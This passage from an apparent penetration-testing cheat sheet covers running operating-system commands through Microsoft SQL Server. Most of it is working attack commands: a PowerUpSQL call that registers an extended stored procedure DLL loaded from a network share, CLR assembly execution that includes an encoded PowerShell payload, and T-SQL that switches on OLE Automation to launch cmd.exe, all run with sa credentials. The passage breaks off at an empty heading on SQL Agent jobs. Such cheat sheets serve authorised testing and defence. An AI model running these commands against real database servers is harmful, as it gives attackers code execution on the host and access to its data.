 ### Add the extended stored procedure and list extended stored procedures

```ps1
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

## CLR Assemblies

### Execute commands using CLR assembly

```ps1
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
or
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose
```


## OLE Automation

### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

## Agent Jobs

### Execute commands through SQL Agent Job service

